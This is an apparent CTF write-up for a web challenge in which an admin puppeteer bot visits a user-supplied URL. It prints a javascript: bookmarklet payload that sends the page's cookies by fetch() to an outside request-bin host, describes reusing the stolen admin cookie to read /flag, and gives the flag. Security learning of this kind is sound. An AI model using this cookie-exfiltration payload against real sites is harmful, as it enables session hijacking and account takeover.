 # Navigation

## Write-up

When you enter the web app, you will get a form with a input asking you to submit a url.

The given url will be captured in the `/go_somewhere` route:

```js
const path = req.body.path;
if(typeof path !== "string") return res.status(400).send("No path provided");
```

The url will be used from `puppeteer` admin boot, which have an admin cookie (that will get on the first goto to localhost), to go to that path:

```js
await page.goto(`http://localhost:3000/?admin=${adminPassword}`);
await page.waitForNavigation({
    waitUntil: 'networkidle0',
});

await page.goto(path);
await browser.close();
```

From there, you will need to know `javascript bookmarklets`:

> Bookmarklets are browser bookmarks that execute JavaScript instead of opening a webpage.

So, in the url part, give it a javascript that recover cookies of the page (admin cookies):

```js
javascript:fetch('https://ennlaozm0ind.x.pipedream.net/',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({message:document.cookie})})
```

Finally, using the cookie collected, go to `/flag` and recover the flag.

## Flag

`shellmates{dONT_LET_PEOpl3_G0_wh3R3_you_DOnt_wAnT_tH3m_t0_6tb23c}`

## More Information

- https://www.freecodecamp.org/news/what-are-bookmarklets/
